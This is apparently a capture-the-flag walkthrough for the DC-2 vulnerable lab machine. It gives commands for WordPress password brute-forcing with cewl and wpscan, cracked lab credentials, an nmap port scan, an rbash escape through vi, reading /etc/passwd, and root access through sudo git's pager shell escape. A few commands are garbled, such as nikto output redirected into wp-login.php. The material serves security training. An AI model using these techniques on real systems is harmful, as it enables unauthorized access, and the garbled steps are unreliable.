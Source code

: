 # DC 2 Walkthrough

### Editing Hosts File

```sh
gedit /etc/hosts
http://dc-2
```

### Flag 1

> Your usual wordlists probably wonʼt work, so instead, maybe you just need to be cewl.
> More passwords is always better, but sometimes you just canʼt win them all.
> Log in as one to see the next flag.
> If you canʼt find it, log in as another.

```sh
wpscan --url http://dc-2
```

### Enumerating Users and Passwords

```sh
cewl http://dc-2 > /home/pinisher/Testing/Dc-2/passwords.txt
wpscan --url http://dc-2 -U 'location/users.txt' -P 'location/passwords.txt'
```

**Valid Combinations Found:**

- Username: jerry, Password: adipiscing
- Username: tom, Password: parturient

```sh
nikto http://dc-2 >> wp-login.php
```

### Logging in as Tom

```sh
simple login to tom
```

### Flag 2

> If you can't exploit WordPress and take a shortcut, there is another way.
> Hope you found another entry point.

### Scanning for Open Ports

```sh
nmap -p- -sV <target-ip>
```

### Accessing SSH

```sh
ssh tom@<target-ip> -p 7744
ls /usr/bin
```

### Privilege Escalation

```sh
vi
:set shell=/bin/bash
:shell
```

```sh
echo $PATH
export PATH=$PATH:/home/tom/usr/bin:/bin:/sbin:/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin
cd /usr/local
ls
```

### Flag 3

```sh
tom@DC-2:$ echo $(<flag3.txt)
```

> Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.

### Checking /etc/passwd

```sh
cat /etc/passwd
```

```
tom:x:1001:1001:Tom Cat,,,:/home/tom:/bin/rbash
jerry:x:1002:1002:Jerry Mouse,,,:/home/jerry:/bin/bash
```

### Switching to Jerry

```sh
su jerry
# Enter password
```

### Flag 4

> Good to see that you've made it this far - but you're not home yet.
> You still need to get the final flag (the only flag that really counts!!!).
> No hints here - you're on your own now.
> Go on - git outta here!!!!

### Exploiting Git for Privilege Escalation

```sh
sudo git branch --help config
!/bin/sh
cd root
```

## Final Flag

**Congratulations!!!**

> [https://gtfobins.github.io/gtfobins/git/#sudo](https://gtfobins.github.io/gtfobins/git/#sudo)
> A special thanks to all those who sent me tweets and provided me with feedback - it's all greatly appreciated.


